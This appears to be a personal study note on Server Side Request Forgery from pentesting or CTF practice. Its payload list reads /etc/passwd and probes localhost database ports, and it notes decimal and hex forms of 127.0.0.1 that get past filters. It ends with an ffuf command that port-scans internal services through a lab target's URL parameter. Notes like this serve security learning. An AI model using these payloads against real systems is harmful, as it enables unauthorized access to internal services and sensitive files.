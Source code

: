 # Server Side Request Forgery

In simpler terms, SSRF is a vulnerability in web applications whereby an attacker can make further HTTP requests through the server. An attacker can make use of this vulnerability to communicate with any internal services on the server's network which are generally protected by firewalls.
 
 ![[docs/Pasted image 20210617214652.png]]
 
 Some techniques (more on payload all the things)
 ![[docs/DEF CON 25 - Orange-Tsai-A-New-Era-of-SSRF-Exploiting-URL-Parser in-Trending-Programming-Languages-UPDATED.pdf]]
 
 The main cause of the vulnerability is (as it often is) blindly trusting input from a user. In the case of an SSRF vulnerability, a user would be asked to input a URL (or maybe an IP address). The web application would use that to make a request. SSRF comes about when the input hasn't been properly checked or filtered.
 
 python stuff: https://medium.com/poka-techblog/server-side-request-forgery-ssrf-part-3-other-advanced-techniques-3f48cbcad27e
 
 # Payloads
 
 also scan for schemes like jar:
 
 ```plaintext
 file:///etc/passwd
 http://127.0.0.1:3306
 http://[::]:3306
 
 #python (flask / django)
 http://:::3306
 ```
 
 The IP "`127.0.0.1`" can be replaced with its Decimal and Hexadecimal counterparts to bypass the restrictions. The decimal version of the localhost IP would be "2130706433" and the Hexadecimal version would be "0x7f000001".
 
 **Note** \- There is a script to do this conversion process, you can find it [here](https://gist.github.com/mzfr/fd9959bea8e7965d851871d09374bb72)
 
 # Portscan via Fuff

create a list with all ports:

```
for i in {1..65535}; do echo $i >> all_ports.txt; done
```


```bash
ffuf -w /usr/share/seclists/Discovery/Infrastructure/all_ports.txt -u 'http://10.10.151.214:8000/attack?url=http%3A%2F%2Flocaltest.me%3AFUZZ' -fs 1045
```

